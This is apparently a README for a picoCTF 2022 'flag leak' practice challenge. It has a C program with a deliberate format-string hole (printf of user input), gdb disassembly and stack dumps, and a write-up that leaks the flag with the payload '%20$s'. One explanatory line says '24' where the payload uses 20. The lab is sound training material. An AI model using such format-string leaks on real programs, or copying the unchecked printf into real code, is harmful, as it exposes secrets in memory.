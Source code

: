 # Format_String
local compile version of the 'flag leak' challenge - picoCTF 2022

## How to use
- Step 1: Run command ```docker build . -t chall:1``` to build the challenge
- Step 2: Run command ```docker run --rm -it chall:1``` to run the challange

## Write up
- First let's checkout the source code
```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>
#include <wchar.h>
#include <locale.h>

#define BUFSIZE 64
#define FLAGSIZE 64

void readflag(char* buf, size_t len) {
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,len,f); // size bound read
}

void vuln(){
   char flag[BUFSIZE];
   char story[128];

   readflag(flag, FLAGSIZE);

   printf("Nói gì đi rồi tui nói lại cho >> ");
   scanf("%127s", story);
   printf("Đến lượt tui nè: \n");
   printf(story);
   printf("\n");
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  
  // Set the gid to the effective gid
  // this prevents /bin/sh from dropping the privileges
  pid_t gid = getegid();
  setresgid(gid, gid, gid);
  vuln();
  return 0;
}
```
- Checksec:


- No PIE enable. Easily see the format-string-vulnerability on vuln function by calling to printf(story) without any format string arguments
- Step 1: Check the FLAG frame in stack
``` assembly
(gdb) diassemble vuln
Undefined command: "diassemble".  Try "help".
(gdb) disassemble vuln
Dump of assembler code for function _Z4vulnv:
   0x0804927f <+0>:     push   %ebp
   0x08049280 <+1>:     mov    %esp,%ebp
   0x08049282 <+3>:     push   %ebx
   0x08049283 <+4>:     sub    $0xc4,%esp
   0x08049289 <+10>:    call   0x8049140 <__x86.get_pc_thunk.bx>
   0x0804928e <+15>:    add    $0x2d72,%ebx
   0x08049294 <+21>:    sub    $0x8,%esp
   0x08049297 <+24>:    push   $0x40
   0x08049299 <+26>:    lea    -0x48(%ebp),%eax
   0x0804929c <+29>:    push   %eax
   0x0804929d <+30>:    call   0x8049206 <_Z8readflagPcj>
   0x080492a2 <+35>:    add    $0x10,%esp
   0x080492a5 <+38>:    sub    $0xc,%esp
   0x080492a8 <+41>:    lea    -0x1f9c(%ebx),%eax
   0x080492ae <+47>:    push   %eax
   0x080492af <+48>:    call   0x8049050 <printf@plt>
   0x080492b4 <+53>:    add    $0x10,%esp
   0x080492b7 <+56>:    sub    $0x8,%esp
   0x080492ba <+59>:    lea    -0xc8(%ebp),%eax
   0x080492c0 <+65>:    push   %eax
   0x080492c1 <+66>:    lea    -0x1f6d(%ebx),%eax
   0x080492c7 <+72>:    push   %eax
   0x080492c8 <+73>:    call   0x80490d0 <__isoc99_scanf@plt>
   0x080492cd <+78>:    add    $0x10,%esp
   0x080492d0 <+81>:    sub    $0xc,%esp
   0x080492d3 <+84>:    lea    -0x1f67(%ebx),%eax
   0x080492d9 <+90>:    push   %eax
   0x080492da <+91>:    call   0x8049080 <puts@plt>
   0x080492df <+96>:    add    $0x10,%esp
   0x080492e2 <+99>:    sub    $0xc,%esp
   0x080492e5 <+102>:   lea    -0xc8(%ebp),%eax
--Type <RET> for more, q to quit, c to continue without paging--
   0x080492eb <+108>:   push   %eax
   0x080492ec <+109>:   call   0x8049050 <printf@plt>
   0x080492f1 <+114>:   add    $0x10,%esp
   0x080492f4 <+117>:   sub    $0xc,%esp
   0x080492f7 <+120>:   push   $0xa
   0x080492f9 <+122>:   call   0x80490c0 <putchar@plt>
   0x080492fe <+127>:   add    $0x10,%esp
   0x08049301 <+130>:   nop
   0x08049302 <+131>:   mov    -0x4(%ebp),%ebx
   0x08049305 <+134>:   leave
   0x08049306 <+135>:   ret
```
- Break point at 0x080492a2
```assembly
Breakpoint 1, 0x080492a2 in vuln() ()
(gdb) x
Argument required (starting display address).
(gdb) x/100x $sp
0xffffd000:     0xffffd090      0x00000040      0xf7d86374      0x0804928e
0xffffd010:     0xf7fbe4a0      0xffffffff      0xffffd094      0xf7d81e54
0xffffd020:     0xf7fbe4a0      0xf7fd0294      0xf7d79674      0xf7f9a000
0xffffd030:     0xf7f9ada0      0x00000000      0x08048369      0x0804c034
0xffffd040:     0xf7ffda40      0xf7fd6f20      0x08048369      0xf7ffda40
```
- 0xffffd090 is FLAG address -> the stack frame of FLAG
- Continue breakpoint right the printf function (that print the story variable) at 0x080492ec
```assembly
Breakpoint 1, 0x080492ec in vuln() ()
(gdb)  x/100x $sp
0xffffd000:     0xffffd010      0xffffd010      0xf7d86374      0x0804928e
0xffffd010:     0xf7fb0061      0xffffffff      0xffffd094      0xf7d81e54
0xffffd020:     0xf7fbe4a0      0xf7fd0294      0xf7d79674      0xf7f9a000
0xffffd030:     0xf7f9ada0      0x00000000      0x08048369      0x0804c034
0xffffd040:     0xf7ffda40      0xf7fd6f20      0x08048369      0xf7ffda40
0xffffd050:     0xffffd090      0xf7ffdc0c      0xf7fbe7c0      0x00000001
```
- From the current the stack frame that esp point to (0xffffd010) the stack frame of FLAG (0xffffd090) need 20 stack frame including the FLAG stackframe. So we can use this payload to leak the FLAG: "%20$s"
```c
% : This marks the beginning of a format specifier.
24 : This is a positional argument specifier. It means that printf should use the 20th argument in the list provided to it.
$ : This is used in conjunction with the positional argument specifier. It's what differentiates a positional argument specifier from a width specifier.
s : This indicates that the argument is expected to be a string (char *).
So, when you use %20$s in printf, the function will expect at least 20 arguments to be passed to it, and it will print the 20th argument assuming it's a string. If there are fewer than 20 arguments provided, or if the 20th argument is not a string, this will likely result in undefined behavior, such as a crash or printing garbage data, because printf will try to access memory that it shouldn't.

Here's a simple example:
printf("%20$s", arg1, arg2, ..., arg20); // arg20 should be a string

In this code, arg20 is expected to be a string, and it will be printed. This feature is not commonly used and can lead to confusing code, so it's generally recommended to use simpler format specifiers unless you have a specific need for this kind of functionality.
```
- FLAG:
```
mera@Admin:/mnt/d/LTAT$ ./chall
Nói gì đi rồi tui nói lại cho >> %20$s
Đến lượt tui nè:
CCDCTF{s33d_h@i_nhw_n@y_s33d_m0t_nhw_n@0}
```




